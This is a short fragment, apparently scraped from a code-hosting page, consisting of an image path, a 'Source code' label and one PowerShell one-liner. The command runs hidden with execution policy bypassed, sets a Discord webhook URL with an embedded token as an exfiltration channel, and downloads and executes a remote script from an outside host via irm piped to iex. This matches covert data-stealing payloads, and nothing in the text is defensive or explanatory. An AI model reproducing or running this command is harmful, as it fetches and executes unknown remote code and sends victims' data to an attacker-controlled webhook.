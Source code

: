 powershell -w h -NoP -Ep Bypass $dc='https://discord.com/api/webhooks/1301434812355186739/GnJBhrauQRzB9KP7hV9l9H05LTVAqThIC0DNfZiauVG3ka5Mn5qodV7HHaK3Fti4v3Ns';$db='';irm jakoby.lol/e8v | iex
